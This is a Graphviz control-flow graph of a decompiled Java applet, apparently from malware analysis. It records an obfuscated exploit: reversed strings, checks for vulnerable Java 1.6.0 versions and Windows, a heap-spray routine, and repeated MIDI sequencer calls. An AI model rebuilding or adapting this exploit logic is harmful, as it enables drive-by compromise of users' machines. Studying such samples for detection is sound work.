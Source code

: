 digraph "" {
    "r0 := @this: dev.s.sucks"
    "goto new java.lang.StringBuffer"
    "r0 := @this: dev.s.sucks"->"goto new java.lang.StringBuffer";
    "new java.lang.StringBuffer"
    "goto new java.lang.StringBuffer"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"at\""
    "dup1.r"->"push \"at\"";
    "push \"ad\""
    "push \"at\""->"push \"ad\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"ad\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r4"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r4";
    "store.r r4"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"//:e\""
    "dup1.r"->"push \"//:e\"";
    "push \"lif\""
    "push \"//:e\""->"push \"lif\"";
    "push \"lif\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "pop"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"pop";
    "pop"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"noi\""
    "dup1.r"->"push \"noi\"";
    "push \"sre\""
    "push \"noi\""->"push \"sre\"";
    "push \"sre\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"v.a\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"v.a\"";
    "push \"v.a\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"vaj\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"vaj\"";
    "push \"vaj\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"09090909\""
    "dup1.r"->"push \"09090909\"";
    "push \"09090909\""->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r16"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r16";
    "store.r r16"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"ema\""
    "dup1.r"->"push \"ema\"";
    "push \"n.so\""
    "push \"ema\""->"push \"n.so\"";
    "push \"n.so\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r20"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r20";
    "store.r r20"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"n\""
    "dup1.r"->"push \"n\"";
    "push \"iw\""
    "push \"n\""->"push \"iw\"";
    "push \"iw\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r24"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r24";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "store.r r24"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r25"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r25";
    "load.r r0"
    "store.r r25"->"load.r r0";
    "load.r r4"
    "load.r r0"->"load.r r4";
    "virtualinvoke <dev.s.sucks: java.lang.String getParameter(java.lang.String)>"
    "load.r r4"->"virtualinvoke <dev.s.sucks: java.lang.String getParameter(java.lang.String)>";
    "store.r r26"
    "virtualinvoke <dev.s.sucks: java.lang.String getParameter(java.lang.String)>"->"store.r r26";
    "push 1"
    "store.r r26"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r r28"
    "newarray"->"store.r r28";
    "load.r r28"
    "store.r r28"->"load.r r28";
    "push 0"
    "load.r r28"->"push 0";
    "push 63"
    "push 0"->"push 63";
    "arraywrite.c"
    "push 63"->"arraywrite.c";
    "arraywrite.c"->"push 0";
    "store.i $r56"
    "push 0"->"store.i $r56";
    "store.i $r56"->"push 0";
    "store.i $r51"
    "push 0"->"store.i $r51";
    "goto load.r r26"
    "store.i $r51"->"goto load.r r26";
    "load.r r26"
    "goto load.r r26"->"load.r r26";
    "load.i $r56"
    "load.r r26"->"load.i $r56";
    "virtualinvoke <java.lang.String: char charAt(int)>"
    "load.i $r56"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"load.r r28";
    "load.r r28"->"push 0";
    "arrayread.c"
    "push 0"->"arrayread.c";
    "ifcmpne.c load.i $r51"
    "arrayread.c"->"ifcmpne.c load.i $r51";
    "ifcmpne.c load.i $r51"->"push 1";
    "push 1"->"newarray";
    "newarray"->"store.r r28";
    "store.r r28"->"load.r r28";
    "load.r r28"->"push 0";
    "load.i $r51"
    "push 0"->"load.i $r51";
    "push 7"
    "load.i $r51"->"push 7";
    "add.i"
    "push 7"->"add.i";
    "push 256"
    "add.i"->"push 256";
    "rem.i"
    "push 256"->"rem.i";
    "rem.i"->"push 1";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 1"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "store.r $r51"
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"store.r $r51";
    "push \"toH\""
    "store.r $r51"->"push \"toH\"";
    "push \"ex\""
    "push \"toH\""->"push \"ex\"";
    "push \"ex\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"Str\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"Str\"";
    "push \"Str\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"i\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"i\"";
    "push \"i\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"ng\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"ng\"";
    "push \"ng\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r $r56"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r $r56";
    "store.r $r56"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "arraywrite.r"
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "load.r $r51"
    "arraywrite.r"->"load.r $r51";
    "load.r $r56"
    "load.r $r51"->"load.r $r56";
    "load.r $r56"->"load.r r28";
    "staticinvoke <dev.s.Bladstvo: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"
    "load.r r28"->"staticinvoke <dev.s.Bladstvo: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>";
    "checkcast"
    "staticinvoke <dev.s.Bladstvo: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"->"checkcast";
    "checkcast"->"store.r r28";
    "load.r r25"
    "store.r r28"->"load.r r25";
    "push \"1.\""
    "load.r r25"->"push \"1.\"";
    "push \"6.\""
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"0_1\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"1\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"1\"";
    "push \"1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "push -1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 1"
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"0_\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_\"";
    "push \"0_\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"12\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"12\"";
    "push \"12\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"3\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"4\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"4\"";
    "push \"4\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_\"";
    "push \"0_\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"15\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"15\"";
    "push \"15\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"6\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"6\"";
    "push \"6\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"push 0";
    "store.b r28"
    "push 0"->"store.b r28";
    "store.b r28"->"goto load.r r26";
    "goto load.r r26"->"load.r r26";
    "push \"i=1\""
    "load.r r26"->"push \"i=1\"";
    "push \"i=1\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 0"
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"push 1";
    "store.b $r51"
    "push 1"->"store.b $r51";
    "goto load.b r28"
    "store.b $r51"->"goto load.b r28";
    "load.b r28"
    "goto load.b r28"->"load.b r28";
    "load.b $r51"
    "load.b r28"->"load.b $r51";
    "and.b"
    "load.b $r51"->"and.b";
    "ifeq load.r r25"
    "and.b"->"ifeq load.r r25";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "ifeq load.r r25"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"\u041b\u0430\u0436\u04301!!!\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\u041b\u0430\u0436\u04301!!!\"";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "push \"\u041b\u0430\u0436\u04301!!!\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "push 47"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <dev.s.sucks: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <dev.s.sucks: java.lang.String repeat(char,int)>";
    "staticinvoke <dev.s.sucks: java.lang.String repeat(char,int)>"->"pop";
    "load.r r20"
    "pop"->"load.r r20";
    "load.r r20"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "load.r r24"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <dev.s.sucks: java.lang.String repeat(char,int)>";
    "staticinvoke <dev.s.sucks: java.lang.String repeat(char,int)>"->"store.r r28";
    "goto new java.lang.StringBuilder"
    "store.r r28"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"load.r r4";
    "load.r r4"->"virtualinvoke <dev.s.sucks: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <dev.s.sucks: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"11\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11\"";
    "push \"11\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r51";
    "push \"\""
    "store.r $r51"->"push \"\"";
    "push \"\""->"store.r $r56";
    "store.r $r56"->"push 0";
    "store.i i52"
    "push 0"->"store.i i52";
    "goto load.i i52"
    "store.i i52"->"goto load.i i52";
    "load.i i52"
    "goto load.i i52"->"load.i i52";
    "load.i i52"->"load.r $r51";
    "virtualinvoke <java.lang.String: int length()>"
    "load.r $r51"->"virtualinvoke <java.lang.String: int length()>";
    "ifcmplt.i new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int length()>"->"ifcmplt.i new java.lang.StringBuilder";
    "goto load.r $r56"
    "ifcmplt.i new java.lang.StringBuilder"->"goto load.r $r56";
    "goto load.r $r56"->"load.r $r56";
    "load.r $r56"->"virtualinvoke <java.lang.String: int length()>";
    "push 8"
    "virtualinvoke <java.lang.String: int length()>"->"push 8";
    "push 8"->"rem.i";
    "ifne new java.lang.StringBuilder"
    "rem.i"->"ifne new java.lang.StringBuilder";
    "ifne new java.lang.StringBuilder"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r $r56";
    "load.r r16"
    "load.r $r56"->"load.r r16";
    "virtualinvoke <dev.s.sucks: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "load.r r16"->"virtualinvoke <dev.s.sucks: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <dev.s.sucks: java.nio.IntBuffer[] mem>"
    "virtualinvoke <dev.s.sucks: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <dev.s.sucks: java.nio.IntBuffer[] mem>";
    "push class \"Ljava/net/URL;\""
    "fieldput <dev.s.sucks: java.nio.IntBuffer[] mem>"->"push class \"Ljava/net/URL;\"";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"
    "push class \"Ljava/net/URL;\""->"virtualinvoke <java.lang.Class: java.lang.String getName()>";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r28";
    "load.r r28"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "staticinvoke <dev.s.Bladstvo: java.lang.Object con(java.lang.String,java.lang.Object[],java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <dev.s.Bladstvo: java.lang.Object con(java.lang.String,java.lang.Object[],java.lang.Class[])>";
    "staticinvoke <dev.s.Bladstvo: java.lang.Object con(java.lang.String,java.lang.Object[],java.lang.Class[])>"->"checkcast";
    "checkcast"->"store.r r28";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"
    "store.r r28"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "pop"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "push 10L"
    "pop"->"push 10L";
